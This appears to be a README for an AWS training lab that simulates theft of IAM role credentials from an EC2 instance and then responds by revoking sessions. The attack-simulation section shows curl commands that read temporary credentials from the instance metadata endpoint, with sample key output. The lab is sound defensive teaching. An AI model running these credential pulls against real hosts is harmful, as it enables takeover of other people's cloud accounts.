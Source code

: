 ![Architecture Overview](assets/diagrams/architecture-overview.png)

## 🚀 Quick Start

### Prerequisites
- AWS CLI configured with CloudFormation permissions
- Basic understanding of IAM roles and EC2
- SSH client or Session Manager access

### 1. Deploy Infrastructure
```bash
# Deploy the CloudFormation template
aws cloudformation create-stack \
  --stack-name aws-security-role-invalidation \
  --template-body file://infrastructure/A4LHostingInc.yaml \
  --capabilities CAPABILITY_IAM
```

### 2. Follow the Demonstration
1. **[Attack Simulation](demonstration/attack-simulation/)** - Extract and use credentials
2. **[Incident Response](demonstration/incident-response/)** - Revoke sessions and restore service
3. **[Evidence Review](demonstration/evidence/)** - Review outputs and screenshots

### 3. Clean Up
```bash
# Delete the CloudFormation stack
aws cloudformation delete-stack --stack-name aws-security-role-invalidation
```

## 📚 Documentation

| Document | Description | 
|----------|-------------|
| [🏗️ Infrastructure Analysis](docs/infrastructure-analysis.md) | Detailed CloudFormation template breakdown |
| [🔒 Security Theory](docs/security-theory.md) | IAM role invalidation concepts |
| [🎯 Demonstration Guide](docs/demonstration-guide.md) | Complete walkthrough with evidence |
| [📖 Attribution](docs/attribution.md) | Credits to Adrian Cantrill |

## 🔴 Attack Simulation Results

### Credential Extraction (Successful)
```bash
# Extract role name from instance metadata
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
A4L-InstanceRole-TDHLFluqhnhA

# Extract temporary credentials
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/A4L-InstanceRole-TDHLFluqhnhA
{
  "AccessKeyId": "ASIAZDHYX3ENS3KXG3WA",
  "SecretAccessKey": "bMJWZGRd4bmetp1XAJHWyOYl3zeFZ+UAI2ZNk+je", 
  "Token": "IQoJb3JpZ2luX2VjEMr//////////wEaCXVzLWVhc3QtMSJH...",
  "Expiration": "2025-07-22T07:50:38Z"
}
```
